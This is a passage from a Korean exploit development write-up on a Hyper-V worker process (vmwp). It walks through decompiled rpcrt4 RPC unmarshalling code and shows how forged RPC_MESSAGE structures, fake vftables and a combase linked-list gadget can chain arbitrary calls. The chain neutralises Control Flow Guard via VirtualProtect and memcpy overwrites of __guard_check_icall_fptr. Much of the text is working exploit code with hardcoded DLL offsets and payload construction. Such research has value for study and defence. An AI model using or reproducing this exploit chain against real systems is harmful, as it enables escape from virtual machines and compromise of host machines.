          StackBufferPointer1 = (int *)&pContext1->StartofStack[StackIndex];
          v65 = StackBufferPointer1;
          flag2 = Params[3 * i];
          if ( (flag2 & 0x40) != 0 )
          {
            if ( (flag2 & 0x100) == 0 )
            {
              if ( LOBYTE(Params[3 * i + 2]) == 8 )
              {
LABEL_34:
                v28 = (int *)((unsigned __int64)(pStubMsg1->Buffer + 3) & 0xFFFFFFFFFFFFFFFCui64);// align 0x4
                pStubMsg1->Buffer = (unsigned __int8 *)v28;// align Buffer
                ParamValue = *v28;
LABEL_35:
                *(_QWORD *)StackBufferPointer1 = ParamValue;// Copy data from my RPC_MESSAGE buffer to NDR_PROC_CONTEXT.AllocateContext.PreAllocateBlock(Real Buffer used calling Invoke)
LABEL_36:
                pStubMsg1->Buffer += 4;
              }
              else
              {
               ...
              }
              if ( pStubMsg1->Buffer > pStubMsg1->BufferEnd )
                RpcRaiseException(1783);
              goto LABEL_23;
            }
            v34 = *((unsigned __int8 *)&_ImageBase + LOBYTE(Params[3 * i + 2]) + 0xEDB20);
            v35 = (unsigned __int8 *)(~v34 & (__int64)&pStubMsg1->Buffer[v34]);
            pStubMsg1->Buffer = v35;
            v36 = Params[3 * i + 2];
            if ( v36 == -72 || v36 == -71 )
            {
              if ( pContext1->AllocateContext.BytesRemaining < 0x10ui64 )
              {
                v48 = (_LIST_ENTRY *)I_RpcBCacheAllocate(0x1000ui64);
                if ( !v48 )
                  RpcRaiseException(14);
                v49 = &pContext1->AllocateContext.MemoryList;
                v50 = pContext1->AllocateContext.MemoryList.Flink;
                if ( v50->Blink != &pContext1->AllocateContext.MemoryList )
                  __fastfail(3u);
                v48->Flink = v50;
                v8 = 0x2000i64;
                v48->Blink = v49;
                v50->Blink = v48;
                v49->Flink = v48;
                pContext1->AllocateContext.pBlockPointer = (__int64)&v48[1];
                pContext1->AllocateContext.BytesRemaining = 4080i64;
              }
              pContext1->AllocateContext.BytesRemaining -= 0x10i64;
              v51 = (_QWORD *)pContext1->AllocateContext.pBlockPointer;
              v3 = v64;
              pContext1->AllocateContext.pBlockPointer = (__int64)(v51 + 2);
              *(_QWORD *)v65 = v51;
              v52 = pStubMsg1->Buffer;
              if ( LOBYTE(Params[3 * i + 2]) == 0xB8 )
                *v51 = *(int *)v52;
              else
                **(_QWORD **)v65 = *(unsigned int *)v52;
              pStubMsg1->Buffer += 4;
              goto LABEL_23;
            }
            *(_QWORD *)StackBufferPointer1 = v35;
            pStubMsg1->Buffer += *((unsigned __int8 *)&_ImageBase + LOBYTE(Params[3 * i + 2]) + 973408);
            if ( pStubMsg1->Buffer > pStubMsg1->BufferEnd )
              RpcRaiseException(1783);
          }
          else
          {
            ...
          }
          v3 = v64;
        }
      }
LABEL_23:
      ++i;
    }
    while ( i < pContext1->NumberParams );
  }
  v21 = pStubMsg1->pCorrInfo;
  if ( v21 )//NULL
  {
	  ...
  }
  v22 = pStubMsg1->Buffer;
  v23 = pStubMsg1->BufferEnd;
  v24 = pStubMsg1->RpcMsg;
  if ( v22 + 8 < v23 )
  {
    ...
  }
LABEL_26:
  v25 = pStubMsg1->RpcMsg;
  v26 = (LRPC_SCALL *)pStubMsg1->RpcMsg->Handle;
  if ( v26 )//corrupted vftable
  {
    if ( (pStubMsg1->pContext->Flags & 2) != 0 )
    {
      LODWORD(v25) = (*((__int64 (__fastcall **)(struct _MIDL_STUB_MESSAGE *))pNdrOleExtensionsTable + 20))(pStubMsg1);
    }
    else
    {
      v27 = *(int (__fastcall **)(LRPC_SCALL *, unsigned int))(*(_QWORD *)v26 + 0x100i64);
      if ( v27 == LRPC_SCALL::CleanupSystemHandles )
        LODWORD(v25) = LRPC_SCALL::CleanupSystemHandles(v26, 5u);
      else
        LODWORD(v25) = v27(v26, 5u);//call function of vftable+0x100
      if ( (_DWORD)v25 )//if return value is not 0
        RpcRaiseException(1783);//Exception :(
    }
  }
  return (int)v25;
}
```

`RpcMsg`의 `DataRepresentation`이 0x10이 아니면 `NdrConvert2`가 호출되는데 이 부분도 건너뛸 수 있도록 이후 페이로드에서 설정해줍시다. 이후 동작을 분석해보면 ProcString으로 전달된 Param을 가리키는 `pContext->Params`의 데이터를 참고해서 `pStubMsg->Buffer`가 가리키는 `RpcMsg->Buffer`에서 데이터를 복사해서 `NdrStubCall2`의 스택으로 복사합니다. Params를 분석해보면 2바이트 필드 세 개로 이루어져 있고 각각 Flag, 스택에서의 인덱스, 인자의 크기(?)를 저장하는 것으로 보입니다. 
Flag 값과 인자의 크기에 따라 다른 동작이 수행되는데 Flag가 0x48일 때의 동작을 보시죠

```C
if ( (flag & 0xC) == 8 )
      {
        StackIndex = (unsigned __int16)Params[3 * i + 1];// Params + i*3 + 1 (1,7,10,13...)
        if ( (flag & 0x800) != 0 )
        {
          ...
        }
        else
        {
          StackBufferPointer1 = (int *)&pContext1->StartofStack[StackIndex];
          v65 = StackBufferPointer1;
          flag2 = Params[3 * i];
          if ( (flag2 & 0x40) != 0 )
          {
            if ( (flag2 & 0x100) == 0 )
            {
              if ( LOBYTE(Params[3 * i + 2]) == 8 )
              {
LABEL_34:
                v28 = (int *)((unsigned __int64)(pStubMsg1->Buffer + 3) & 0xFFFFFFFFFFFFFFFCui64);// align 0x4
                pStubMsg1->Buffer = (unsigned __int8 *)v28;// align Buffer
                ParamValue = *v28;
LABEL_35:
                *(_QWORD *)StackBufferPointer1 = ParamValue;// Copy data from my RPC_MESSAGE buffer to NDR_PROC_CONTEXT.AllocateContext.PreAllocateBlock(Real Buffer used calling Invoke)
LABEL_36:
                pStubMsg1->Buffer += 4;
```
`pStubMsg->Buffer`가 가리키는 주소에서 4바이트 만큼의 데이터를 `pContext->StartofStack[StackIndex]`에 복사합니다! 8바이트 인자 하나를 전달하려면 인자 크기가 8이고 StackIndex가 각각 0, 4인 Param 두 개가 필요하겠네요!

그리고 `NdrpServerUnMarshal`이 리턴하는 과정에서 한 가지 문제가 발생합니다.
```C
LABEL_26:
  v25 = pStubMsg1->RpcMsg;
  v26 = (LRPC_SCALL *)pStubMsg1->RpcMsg->Handle;//VideoDirtListener, first entry of fake vftable
  if ( v26 )
  {
    if ( (pStubMsg1->pContext->Flags & 2) != 0 )
    {
      ...
    }
    else
    {
      v27 = *(int (__fastcall **)(LRPC_SCALL *, unsigned int))(*(_QWORD *)v26 + 0x100i64);
      if ( v27 == LRPC_SCALL::CleanupSystemHandles )
        LODWORD(v25) = LRPC_SCALL::CleanupSystemHandles(v26, 5u);
      else
        LODWORD(v25) = v27(v26, 5u);
      if ( (_DWORD)v25 )
        RpcRaiseException(1783);
    }
  }
  return (int)v25;
}
```
`RpcMsg`의 주소는 원래 `VideoDirtListener`이고 `Handle`의 오프셋인 0에는 가짜 vftable의 주소가 저장되어 있습니다. 따라서 `v26`은 이 가짜 vftable의 첫 번째 엔트리의 값을 가지게 되고 여기에 0x100을 더한 주소의 메모리에 저장된 값이 0이 아니라면 이를 호출하고 또한 반환 값이 0이 아니면 예외가 발생합니다. 그냥 가짜 vftable의 첫 엔트리를 0으로 만들어주면 if 문으로 진입하지 않아서 바로 리턴하는거 아니냐고요? 이 부분이 `NdrStubCall2`에서 또 참조되기 때문에 0으로 만들 수가 없습니다 ㅠㅠ 따라서 이 부분에서 호출될 함수를 `VirtualProtect`로 만들었습니다. `VirtualProtect`는 잘못된 인자로 호출되거나 하는 등의 이유로 동작이 실패했을 때 0을 반환하기 때문에 해당 부분을 예외 없이 잘 통과할 수 있었습니다!

무튼 이렇게 `RpcMsg->Buffer`에 있는 함수 호출에 사용될 인자들이 `NdrStubCall2`의 `arg`가 가리키는 스택으로 모두 복사됩니다! 그리고 대망의 `Invoke`가 호출될 함수의 주소와 사용될 인자들이 저장된 버퍼를 인자로 호출됩니다!

### `Invoke`
아래는 `NdrStubCall2`에서 `Invoke`가 호출되는 부분입니다.
```C
  v21 = MIDL2->ThunkTable;
  if ( v21 && (v58 = (void (__fastcall *)(_MIDL_STUB_MESSAGE *, const STUB_THUNK *, __int64))v21[ProcNum2]) != 0i64 )
  {
    v58(&pStubMsg, v21, ProcNum2);
  }
  else
  {
    v105 = 0i64;
    v22 = (const SERVER_ROUTINE *)Msg->ManagerEpv;
    if ( !v22 )
      v22 = DispatchTable;
    argc = (unsigned __int64)NdrProcContext.StackSize >> 3;
    if ( (_DWORD)argc && (*(_BYTE *)(NdrProcContext.union.NdrInfo.pProcDesc + 4) & 4) != 0 && (v20 & 8) == 0 )
      LODWORD(argc) = argc - 1;
    if ( v7 )
      v24 = *(unsigned __int16 *)(v7 + 8);
    else
      v24 = 0i64;
    v25 = Invoke((__int64 (__fastcall *)(__int64, __int64, __int64, __int64))v22[ProcNum2], args, v24, argc);
    v105 = v25;
    if ( (*(_BYTE *)(NdrProcContext.union.NdrInfo.pProcDesc + 4) & 4) != 0 )
    {
      if ( (NdrProcContext.Flags & 8) == 0 )
        *(_QWORD *)&args[8 * (int)argc] = v25;
      if ( pThis )
        (*((void (__fastcall **)(PRPC_MESSAGE, _QWORD, _QWORD))pNdrOleExtensionsTable + 4))(
          Msg,
          0i64,
          (unsigned int)v25);
    }
  }
```

`MIDL_SERVER_INFO`의 `ThunkTable`이 NULL이 아니면 호출될 함수의 인자로 `StubMsg`, `ThunkTable`, `ProcNum`가 전달되기 때문에 `ThunkTable`은 NULL로 설정해야합니다. 또한 `RpcMsg`의 `ManagerEpv`도 NULL이면 `MIDL_SERVER_INFO`의 `DispatchTable`에서 호출될 함수를 가져옵니다.
`Invoke`가 호출되는 부분을 보면 `v22[ProcNum]`으로 호출될 함수의 주소와 인자들이 저장된 버퍼의 주소, 인자의 수를 사용해서 호출하고 있네요! `Invoke` 내부에선 어떤 동작이 이루어질까요?...

```C
__int64 __fastcall Invoke(__int64 (__fastcall *a1)(__int64, __int64, __int64, __int64), const void *args, __int64 a3, unsigned int argc)
{
  void *v4; // rsp
  __int64 vars0[4]; // [rsp+0h] [rbp+0h] BYREF

  v4 = alloca(8 * ((argc + 1) & 0xFFFFFFFE));
  qmemcpy(vars0, args, 8i64 * argc);
  RpcInvokeCheckICall(a1);
  return a1(vars0[0], vars0[1], vars0[2], vars0[3]);
}
```

오랜만에 짧은 분량의 코드를 보니 기분이 매우 좋습니다!! 인자 전달에 필요한 만큼의 스택을 `alloca`로 추가로 확장한 다음 `qmemcpy`로 복사합니다. 이후 `RpcInvokeCheckICall`로 CFG 검사를 수행합니다. 검사를 통과하면 ~~드디어~~ 요청된 함수를 호출합니다.

### Exit
요청된 함수가 호출됐다고 끝이 아니죠! 마지막 목표는 `NdrStubCall2`를 ~~크래시를 맞지 않고~~ 예외 없이 리턴시켜줘야 합니다.
`NdrStubCall2`에서 `Invoke`가 리턴한 후 아래와 같은 코드를 볼 수 있는데요?

```C
if ( !pChannel )
  {
    if ( pStubMsg.IsClient )
    {
      pStubMsg.SavedHandle = 0i64;
      pStubMsg.RpcMsg->Handle = 0i64;
    }
    pStubMsg.RpcMsg->BufferLength = (v26 + 3) & 0xFFFFFFFC;
    RpcMsg1 = pStubMsg.RpcMsg;
    v98 = pStubMsg.RpcMsg;
    v122 = 0i64;
    v28 = (BINDING_HANDLE *)pStubMsg.RpcMsg->Handle;//v28 == fake vftable
    if ( pStubMsg.RpcMsg->Handle
      && *((_DWORD *)v28 + 2) == 0x89ABCDEF
      && (v29 = *((_DWORD *)v28 + 3), (v29 & 0x33307C) != 0) )
    {
      v116 = pStubMsg.RpcMsg->Handle;
      v30 = v29 & 0x202048;
      v96 = v30;
      v101 = pStubMsg.RpcMsg;
      if ( !v30 && (pStubMsg.RpcMsg->RpcInterfaceInformation->Flags & 0x2000000) != 0 )
      {
        v34 = (*(__int64 (__fastcall **)(BINDING_HANDLE *, PRPC_MESSAGE, _QWORD))(*(_QWORD *)v28 + 0x70i64))(
                v28,
                pStubMsg.RpcMsg,
                0i64);
        goto LABEL_56;
      }
      v31 = (__int64)NtCurrentTeb()->ReservedForNtRpc;
      v115 = v31;
      if ( v31 )
      {
        v32 = (struct THREAD *)(v31 ^ 0xABABABABDEDEDEDEui64);
        v115 = (__int64)v32;
        v123 = NtCurrentTeb();
        if ( (HANDLE)*((_QWORD *)v32 + 2) != v123->ClientId.UniqueThread )
          __fastfail(0x1Eu);
        if ( v32 )
          goto LABEL_217;
      }
      v32 = ThreadSelfHelper();
      if ( v32 )
      {
LABEL_217:
        if ( *((_QWORD *)v32 + 10) )
        {
          FreeEEInfoChain();
          *((_QWORD *)v32 + 10) = 0i64;
        }
        RpcMsg1->ProcNum &= 0xFFFF7FFF;
        if ( !v30 )                             // !v30 => 0
        {
          if ( (*((_DWORD *)v28 + 3) & 0x130010) != 0 && (Microsoft_Windows_RPCEnableBits & 2) != 0 )// avoid here
          {
            v59 = BINDING_HANDLE::GetImpersonationLevel(v28);
            v60 = BINDING_HANDLE::GetAuthenticationService(v28);
            v61 = BINDING_HANDLE::GetAuthenticationLevel(v28);
            v62 = (*(__int64 (__fastcall **)(BINDING_HANDLE *))(*(_QWORD *)v28 + 344i64))(v28);
            v63 = (*(__int64 (__fastcall **)(BINDING_HANDLE *))(*(_QWORD *)v28 + 336i64))(v28);
            v64 = (*(__int64 (__fastcall **)(BINDING_HANDLE *))(*(_QWORD *)v28 + 328i64))(v28);
            v65 = (*(__int64 (__fastcall **)(BINDING_HANDLE *))(*(_QWORD *)v28 + 320i64))(v28);
            v94 = v62;
            RpcMsg1 = v98;
            McTemplateU0jqqzzzqqq(
              v66,
              (unsigned int)&RpcClientCallStartEvent,
              &v101->RpcInterfaceInformation->InterfaceId,
              v98->ProcNum,
              v65,
              v64,
              v63,
              v94,
              v61,
              v60,
              v59);
            v30 = v96;
          }
          v36 = (*(__int64 (__fastcall **)(BINDING_HANDLE *, PRPC_MESSAGE))(*(_QWORD *)v28 + 0x68i64))(v28, RpcMsg1);// make corrupted vftable[0] + 0x68 points VirtualProtect in DispatchTable
          if ( v36 )
            goto LABEL_57;
          v28 = (BINDING_HANDLE *)RpcMsg1->Handle;
          v116 = RpcMsg1->Handle;
        }
        v33 = *(__int64 (__fastcall **)(OSF_SCALL *__hidden, struct _RPC_MESSAGE *, struct _GUID *))(*(_QWORD *)v28 + 0x70i64);// call RpcMsg->Handle[0] + 0x70 => VirtualProtect
        if ( v33 == OSF_SCALL::GetBuffer )
        {
          v34 = OSF_SCALL::GetBuffer(v28, RpcMsg1, 0i64);
        }
        else if ( v33 == LRPC_SCALL::GetBuffer )
        {
          v34 = LRPC_SCALL::GetBuffer(v28, RpcMsg1, 0i64);
        }
        else
        {
          v34 = v33(v28, RpcMsg1, 0i64);        // make corrupted vftable[0] + 0x70 points VirtualProtect in DispatchTable
        }
LABEL_56:
        v36 = v34;
LABEL_57:
        if ( !v30 && v36 )
        {
          if ( (Microsoft_Windows_RPCEnableBits & 2) != 0 )
            McTemplateU0q(v35, &RpcClientCallEndEvent, v36);
          if ( (unsigned int)IsEEInfoEtwEnabled() )
            LogEEInfoToEtw();
        }
        goto LABEL_58;
      }
      v36 = 14;
    }
    else
    {
      v36 = 0x6A6;
    }
LABEL_58:
    if ( v36 )
    {
      if ( pStubMsg.pAsyncMsg && pStubMsg.IsClient )
        *((_WORD *)pStubMsg.pAsyncMsg + 8) |= 8u;
      RpcRaiseException(v36);
    }
    pStubMsg.Buffer = (unsigned __int8 *)pStubMsg.RpcMsg->Buffer;
    v37 = (unsigned int)pStubMsg._bf_c0;
    LODWORD(v37) = pStubMsg._bf_c0 | 0x200;
    pStubMsg._bf_c0 |= 0x200u;
    goto LABEL_60;
  }
```

`v28`이 조작된 vftable의 주소를 가리키게 되고 매우 복잡해 보이는 조건을 가진 if문과 만나게 됩니다. 복잡해 보인다고 그냥 조건을 무시해서 else로 분기하게 되면 `v36`이 0x6a6으로 설정되는데요? 바로 다음 if 문을 보시면 `v36`이 0이 아니면 얄짤 없이 `RpcRaiseException`이 호출되면서 예외를 얻어맞게 됩니다. ~~`NdrStubCall2`: 자세히 안 볼거야? ㅇㅋㅇㅋ 터질게~~
다 됐다고 생각한 시점에서 크래시를 맞고 다시 한 번 좌절감을 맛 본 저는 조건을 맞춰 주려고 가짜 vftable의 두 번째 엔트리를 0x33307c89abcdef로 설정해서 if문으로 분기하게 만들었습니다. 그리고 `NdrpServerUnMarshal`때처럼 `v33 = *(__int64 (__fastcall **)(OSF_SCALL *__hidden, struct _RPC_MESSAGE *, struct _GUID *))(*(_QWORD *)v28 + 0x70i64);`로 얻어진 함수의 주소를 `VirtualProtect`로 만들어줘 `v34 = v33(v28, RpcMsg1, 0i64);`에서 0이 반환되어 `RpcRaiseException`이 호출되는 부분을 피할 수 있었고 `NdrStubCall2` 무사히 반환되었습니다...

지금까지 `NdrServerCall2`을 분석해보며 임의의 함수를 임의의 인자로 안전하게(?) 호출하는 방법을 알아봤습니다. 이 과정을 알아내기까지 저의 가상머신이 겪었을 수많은 스냅샷 복원에 마음이 아프네요


## Neutralizing CFG
그래서 이거로 어떻게 CFG를 우회할 수 있을까요?  먼저 `Invoke`에서 CFG 체크를 위해 호출되는 `RpcInvokeCheckICall`을 보면 아래와 같은데요?

`rpcrt4!__guard_check_icall_fptr`이 가리키는 함수를 호출하는 것을 볼 수 있습니다.
만약 `rpcrt4!__guard_check_icall_fptr`에 쓰기 권한을 부여하고 바로 `ret` 명령을 수행하는 주소로 덮어쓴 다면 어떻게 될까요? CFG가 활성화는 되어 있지만 `ntdll!LdrpValidateUserCallTarget`이 호출되지 않아 CFG가 있으나 마나인 상태가 되어버립니다!! 다행히 `VirtualProtect`는 간접 호출을 하더라도 CFG에 걸리지 않습니다! 하지만 위 동작을 하기 위해선 적어도 세 번의 함수 호출은 필요할 것입니다. 다행히 간접 호출을 반복할 수 있는 가젯이 `combase.dll`에 있습니다! 

## Loop Indirect Call
아래는 `combase!RegistrationStore::Context`의 `RevertChanges`라는 메소드입니다.

`Context+0xb0`에 위치한 `_List_ENTRY`로 이루어진 연결리스트를 `Blink`방향으로 순회하면서 vftable+0x70에 저장된 주소를 반복적으로 호출할 수 있습니다. 연결 리스트를 구성하려면 힙 주소를 알아야 하는데 이는 `VideoDirtListener + 0x58`에 `VideoDirtListener`의 주소가 저장되어 있어서 쉽게 알아낼 수 있었습니다. 또한 `Blink`가 `RPC_MESSAGE`의 다른 중요한 필드와 오프셋이 겹치지 않기 때문에 
여러 개의 노드들로 연결리스트를 구성하고 이 가젯을 활용해서 각각의 노드들을 순회하며 스스로를 인자(`RPC_MESSAGE`)로 삼아 `NdrServerCall2`를 호출하는 것이 가능합니다. 또한 각각의 노드(`RPC_MESSAGE`)에서는 같은 `RPC_SERVER_INTERFACE`와 `MIDL_SERVER_INFO`, `DispatchTable`과 `vftable`을 공유할 수 있어서 ~~심각할 정도로~~ 복잡해지지 않습니다.
그럼 이제 어떤 함수 호출로 CFG를 무력화할지 알아보시죠

### `VirtualProtect`
정말 다행히 `VirtualProtect`는 간접 호출되어도 되는 유효한 함수였습니다. 따라서 `VirtualProtect(rpcrt4!_guard_check_icall_fptr, 8, PAGE_READWRITE, VALID_ADDRESS)`와 같은 호출을 발생시켜서 먼저 `rpcrt4!__guard_check_icall_fptr`에 쓰기 권한을 부여합시다

### `combase!GenericStreamBase<IStream,CoTaskMemAllocAllocator>::GetCopy`
쓰기 가능해진 `rpcrt4!__guard_check_icall_fptr`에 데이터를 쓰기 위해 일반적인 `memcpy` 등을 쓰면 CFG에 의해 vmwp가 종료되고 맙니다... 따라서 CFG에 걸리지 않는 `combase!GenericStreamBase<IStream,CoTaskMemAllocAllocator>::GetCopy`를 사용합니다.

```C
__int64 __fastcall GenericStreamBase<IStream,CoTaskMemAllocAllocator>::GetCopy(GenericStreamBase<IStream,AllocationWrapper> *this, unsigned __int8 *pBuff)
{
  memcpy_0(pBuff, (*&this->_cbDataSize + 4i64), this->_lOffset);
  return 0i64;
}
```


인자로 `this`와 데이터가 복사될 메모리 주소인 `pBuff`가 보이는데요? `this+0x14`의 4바이트를 복사할 데이터의 바이트 수, `this+0x18`을 8바이트를 복사될 데이터가 위치한 메모리 주소로 사용합니다. `this`가 있진 하지만 이 또한 `NdrServerCall2`로 조작할 수 있는 주소입니다. 페이로드에 복사될 크기와 데이터가 위치한 주소를 포함시키고 이를 가리키게 만들기만 하면 되죠. 내부적으로 `memcpy`가 호출되며 `rpcrt4!__guard_check_icall_fptr`은 호출되자마자 return하게 될 겁니다. CFG를 바보로 만들어버리는 거죠!

### `CreateFileA`
`GetCopy`를 끝으로 CFG가 무력화되었기 때문에 어떤 함수도 호출할 수 있게 되었습니다. 굳이 함수일 필요도 없이 실행 가능한 그 어떤 주소로도 제어 흐름을 조작할 수 있게 된 것이죠. 하지만 파트 4에서 알아보았다시피 vmwp는 자식 프로세스를 생성할 수 없기 때문에 `CreateProcess`로 멋있게 계산기를 띄우는 익스플로잇을 불가능하기 때문에 `C:\Users\Public` 밑에 아무 파일이나 생성하는 것으로 익스플로잇을 확인했습니다.

이제 익스플로잇 코드의 페이로드 부분을 보시죠!

# Payload
페이로드의 대략적인 구조는 아래의 그림과 같습니다

보기만 해도 어질어질해지는 저 페이로드가 OOB Write를 통해 타겟 힙에서 `VideoDirtListener`가 위치한 메모리에 삽입될 것입니다. 페이로드의 가장 앞 부분에 위치한 노드들은 각 0x100 크기를 가지고 CFG 무력화에서 설명한 것처럼 각 노드는 `RPC_MESSAGE`이자 `RegistrationStore::Context`입니다. 추가로 첫 번째 노드는 `VideoDirtListener`이기도 하네요. 무튼 저는 이 노드의 크기를 0x100 바이트로 잡고 앞의 0x60바이트는 `RPC_MESSAGE`이고 나머지 공간을 `RPC_MESSAGE`의 `Buffer`로 사용했습니다.
그럼 이제 제가 작성한 익스플로잇 코드에서 페이로드를 어떻게 만들었는지 살펴보시죠!

## Exploit Code

### Variables
```C
	__int64 rpcrt4_guard_check_icall_fptr = RPCRT4 + 0xe94f0, KernelBase_VirtualProtect = KernelBase + 0x64030, ret = RPCRT4 + 0x58480 + 0x1e;//RPCRT4!NdrServerCall2 + 0x1e => ret


	char* payload = (char*)VideoDirtListenerOffset;
	PRPC_MESSAGE pRpcMsg = NULL;
	PRPC_SERVER_INTERFACE pServerInterface = NULL;
	PMIDL_SERVER_INFO pMidl = NULL;
	__int64* node = NULL;

	__int64 start = VideoDirtListener, DispatchTable = start + 0x100 * INDIRECT_CALL_CHAIN_LEN, MidlStubDesc = DispatchTable + sizeof(__int64) * INDIRECT_CALL_CHAIN_LEN, MidlSrvInfo = MidlStubDesc + sizeof(MIDL_STUB_DESC), ServerInterface = MidlSrvInfo + sizeof(MIDL_SERVER_INFO);
	__int64 ProcStringAddress = ServerInterface + sizeof(RPC_SERVER_INTERFACE), FmtStringOffsetAddress = ProcStringAddress + 0x100, vftable = FmtStringOffsetAddress + sizeof(short) * 0x10;
	char* ProcString = ((char*)VideoDirtListenerOffset) + (ProcStringAddress - start);
	int ProcStringCursor = 0;
	WORD* FmtStringOffset = ((char*)VideoDirtListenerOffset) + (FmtStringOffsetAddress - start);
	for (int i = 0; i < INDIRECT_CALL_CHAIN_LEN; i++) {
		FmtStringOffset[i] = 0;
	}
```

필요한 변수들을 초기화하는 부분입니다. 타겟 힙에서 유출한 DLL 주소로 `rpcrt4!__guard_check_icall_fptr`, `VirtualProtect` 등의 주소를 변수에 저장합니다. `start`, `DispatchTable` 등 정수형 변수들은 vmwp의 가상 메모리 주소를 저장하고 있습니다. 아까 위에서 본 페이로드 구조에서 알 수 있듯이 페이로드 안에서 다양한 구조체들이 서로를 가리키고 있기 때문에 미리 해당 주소를 계산해두었습니다. 그 외에 포인터 변수들은 vmwp가 아닌 Exploit 프로세스의 메모리에서 페이로드에 데이터를 쓸 때 사용합니다.

### vftable

```C
	VideoDirtListenerEntries[2] = combase + 0x17d9b0;//vmemulateddevices!VideoDirtListener::PrepareSelf -> combase!RegistrationStore::Context::RevertChanges
	VideoDirtListenerEntries[0x70 / 0x8] = RPCRT4 + 0x58480;//RPCRT4!NdrServerCall2
	VideoDirtListenerEntries[0] = DispatchTable + 8 - 0x70;// -> RPCRT4!NdrpServerUnmarshal's indirect call must return 0, point to VirtualProtect & make it fail to return 0
	VideoDirtListenerEntries[1] = 0x33307c89abcdef;//NdrStubCall2+0x4c0
```

`VideoDirtlistenerEntries`는 `VideoDirtListener`의 vftable의 데이터가 저장되어 있습니다. 간접 호출을 반복하기 위해 `VideoDirtListener::PrepareSelf`를 `combase!RegistrationStore:Context:RevertChanges`로 바꿔주고 `RevertChanges`에서 호출될 함수는 `NdrServerCall2`로 조작해두었습니다. 그리고 `NdrStubCall2`와 `NdrpServerUnMarshal`에서 `RpcRaiseException`이 호출되는 것을 막기 위해 0번째, 1번째 엔트리를 수정했습니다.

### ProcDesc & ProcString
`NdrServerCall2`에서 함수 호출에 필요한 인자를 Unmarshaling하는데 필요한 ProcString과 ProcDesc도 잘 설정해줘야 합니다. 첫 번째 노드(`VideoDirtListener`)는 루프를 시작하기 위해 `RevertChanges`를 호출하는 역할만 하고 두 번째 노드부터 차례로 `VirtualProtect`, `GetCopy`, `CreateFileA`를 호출합니다. 따라서 인자의 수는 이미 정해져 있으니 이에 맞춰 ProcString과 ProcDesc를 초기화합니다. 반복문에서 사용된 i는 ProcNum이자 노드의 번호입니다.
그 외에 vftable 주소를 변경하고 `RevertChanges`에서 사용될 `Blink`를 다음 노드의 주소로 설정하고 `RPC_MESSAGE`의 필드들도 설정해줍니다.
이후 switch-case로 i에 따라 `BufferLength`, `NumberParams`, `StackSize` 등을 설정하고 이후 `NumberParams`개의 `Param`을 초기화해줍니다.

```C
	for (int i = 0; i < INDIRECT_CALL_CHAIN_LEN; i++) {
		char* ProcDesc = NULL;
		WORD* Param = NULL;
		node = payload + i * 0x100;
		node[0] = vftable;
		node[0x58 / 8] = start + (i + 1) * 0x100 + 0x50;
		pRpcMsg = payload + i * 0x100;
		pRpcMsg->Buffer = start + i * 0x100 + 0x60;
		pRpcMsg->ProcNum = i;
		pRpcMsg->RpcInterfaceInformation = ServerInterface;
		pRpcMsg->DataRepresentation = 0x10;
		FmtStringOffset[i] = ProcStringCursor;

		printf("[+] Node[%x]: address=%llx, vftable=%llx, Buffer=%llx, RPC_SERVER_INTERFACE=%llx, next=%llx\n", i, start+i*0x100, vftable, start+i*0x100+0x60, ServerInterface, start + (i+1)*0x100+0x50);

		ProcString[ProcStringCursor + 0] = 0x1;//HandleType = 0x1
		ProcString[ProcStringCursor + 1] = 0;//InterpreterFlags = 0
		*(short*)&ProcString[ProcStringCursor + 2] = 0;// return value == 0
		switch (i) {//i=>ProcNum,  StackSize = BufferLength, Buffer + Bufferlen => ProcDesc
		case 1://VirtualProtect(RPCRT4!_guard_check_icall_fptr, 8, PAGE_READWRITE, VALID_ADDRESS)
			*(short*)&ProcString[ProcStringCursor + 4] = 0x20;//StackSize <- Buffer Length
			pRpcMsg->BufferLength = 0x20;
			//*(__int64*)&ProcString[0x10 * i + 6] = start + i * 0x100 + 0x60 + 0x20 + 0x10;//0x20 -> bufferlen, ProcDesc Pointer
			//ProcDesc = &pRpcMsg->Buffer + 0x30;//after ProcDescPointer
			ProcDesc = &ProcString[ProcStringCursor + 6];
			ProcDesc[4] = 0;//ignore return value
			ProcDesc[5] = pRpcMsg->BufferLength/4;//NumberParams
			Param = ProcDesc + 6;
			ProcStringCursor += 6 + 6;//ProcString + ProcDesc len
			break;

		case 2://GetCopy(this, dest)
			*(short*)&ProcString[ProcStringCursor + 4] = 0x10;//StackSize <- Buffer Length
			pRpcMsg->BufferLength = 0x10;
			ProcDesc = &ProcString[ProcStringCursor + 6];
			ProcDesc[4] = 0;//ignore return value
			ProcDesc[5] = pRpcMsg->BufferLength/4;//NumberParams
			Param = ProcDesc + 6;
			ProcStringCursor += 6 + 6;//ProcString + ProcDesc len
			break;

		case 3://CreateFileA
			*(short*)&ProcString[ProcStringCursor + 4] = 0x8 * 7;//StackSize <- Buffer Length
			pRpcMsg->BufferLength = 0x8 * 7;
			ProcDesc = &ProcString[ProcStringCursor + 6];
			ProcDesc[4] = 0;//ignore return value
			ProcDesc[5] = pRpcMsg->BufferLength/4;//NumberParams
			Param = ProcDesc + 6;
			ProcStringCursor += 6 + 6;//ProcString + ProcDesc len
			break;

		default:
			break;
		}
		if (Param && ProcDesc && pRpcMsg->BufferLength) {//ProcDesc is Not NULL and StackSize is bigger than 0 => have parameter
			printf("\t[+] Param Info: Num of param=%d, StackSize=0x%x, \n", ProcDesc[5], pRpcMsg->BufferLength);
			*(__int64*)&ProcDesc[6] = (__int64)pRpcMsg->Buffer + 0x10 + *(short*)&ProcString[0x10 * i + 4];//address of buffer + bufferlen+ ProcDescLen
			//Param = (char*)&(pRpcMsg->Buffer) + 0x20 + *(short*)&ProcString[0x10 * i + 4];
			for (int j = 0; j < pRpcMsg->BufferLength / 0x4; j++) {
				Param[j * 3] = 0x8 | 0x40;//flag, used in Unmarshaling
				Param[j * 3 + 1] = j * 4;//Stack Index of parameter
				Param[j * 3 + 2] = 8;//Size of Param
				ProcStringCursor += 6;//add params len
			}
		}
		else printf("\t[+] Param Info: No param\n");

	}
```

### RPC Structures
`NdrServerCall2`에 필요한 RPC 구조체들을 초기화하는 부분입니다. 페이로드 상에서 노드보다 뒤에 위치합니다. 간접 호출 루프를 시작할 수 있도록 `_listChanges`를 1번째 노드로 설정하고 마지막 노드에서는 첫 번째 노드의 `_LIST_ENTRY`를 가리키게 만들었습니다.

```C
	pRpcMsg = payload;
	pRpcMsg->Buffer = (__int64)pRpcMsg->Buffer | (0x7 << 0x18);// for vm::onprepare's error check
	VideoDirtListenerOffset[0xb8/0x8] = start + 0x150;//init _listChanges
	node = payload + 0x100 * 3;//last indirect call loop
	node[0x58 / 8] = start + 0xb0;//escape loop


